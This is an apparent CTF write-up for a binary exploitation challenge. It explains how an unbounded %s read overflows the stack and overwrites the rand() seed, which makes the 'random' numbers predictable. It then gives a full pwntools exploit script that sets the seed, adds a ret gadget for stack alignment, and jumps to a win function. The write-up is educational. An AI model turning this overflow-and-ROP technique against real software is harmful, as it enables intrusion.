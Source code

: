 the challenge description says we have to guess ? i dont think so :P<br>
![My Image](./img/really_random_challenge_desc.png)<br>

first we anayze the binary and rename variables<br>
![My Image](./img/Decomp_randome.png)<br>

we have a win()  named potato :D <br>
![My Image](./img/win.png)<br>
![My Image](./img/vars.png)<br>

here we have the overflow vuln the format specifier `%s` does not cap the amount of bytes we can input.<br>
![My Image](./img/vuln_1.png)<br>

we can overflow the Stack but how can we reach the ret;<br>
![My Image](./img/goal_1.png)<br>
we have to `guess` the 10 numbers that are generated and transformed here<br>
![My Image](./img/winningNumbers.png)<br>
take a quick look into the rc4() <br>
we copy paste this and add it to our Exploit Script.

```py
def rc4(randNumber,seed):
    tmp = (seed + randNumber >> 0x1f) >> 0x18
    return (seed + randNumber + tmp & 0xff) - tmp
```
![My Image](./img/rc4.png)<br>

ok now how can we guess the 10 numbers ? <br>
We know that the numbers are generated by the `c` implementation of a `pseudo random number generator` the `rand()`.
The `rand()` and the `srand()` are related to each other.<br>
Without the `srand()` function, the `rand()` function would always generate the same number each time the program is run.<br>

this first call to `rand()` will allways generate the same number.<br>
![My Image](./img/vuln_2.png)<br>
that means we know the seed and can generate the correct numbers by ourself.<br>

```
# this will import the libc rand() function to our python script
libc = ctypes.CDLL('/lib/x86_64-linux-gnu/libc.so.6')
```


but even better we dont need to generate the correct seed because we overwrite the seed variable anyways with our Bof Payload <br>

the seed is initiated here<br>
![My Image](./img/gdb_seed.png)

after our Palyload is read in we can see the the seed is overwritten<br>
![My Image](./img/payload_overwrite_seed.png)<br>
so we simply set the seed to 0x1337<br>

```
    payload = b''
    payload += b'A'*112                       #fill the 112 bytes of the inputbuffer
    payload += p64(seed)                      #overflow the seed
```
now we generate 10 randome numbers with the `0x1337` seed

```py
for i in range(10):
        numb = rc4(libc.rand(),seed)
        sl(f'{numb}')
```

and here is the full Script

```py
    seed = 0x1337
    libc.srand(seed)


    payload = b''
    payload += b'A'*112
    payload += p64(seed)                                 #set thee seed 
    payload += p64(0x1122334455667788)*2
    payload += p64(rop.find_gadget(['ret'])[0])          #return to fix Stack alignment
    payload += p64(elf.symbols['potato'])                #jump to the potato()


    sl(payload)

    rc('Guess my numbers!')
    sleep(1)

    for i in range(10):
        numb = rc4(libc.rand(),seed)
        sl(f'{numb}')

    inter()

```

care for Stack alignment otherwhise we end up here in a `SIGSEGV` because the `movaps` instruction needs a 0x10 byte aligned Stack<br>
![My Image](./img/movaps_issue.png)

```
Moves a double quadword containing four packed single-precision floating-point values from the source operand (second operand) to the destination operand (first operand). This instruction can be used to load an XMM register from a 128-bit memory location, to store the contents of an XMM register into a 128-bit memory location, or to move data between two XMM registers.

When the source or destination operand is a memory operand, the operand must be aligned on a 16-byte boundary or a general-protection exception (#GP) is generated.
```
source: https://c9x.me/x86/html/file_module_x86_id_180.html<br>



<br>


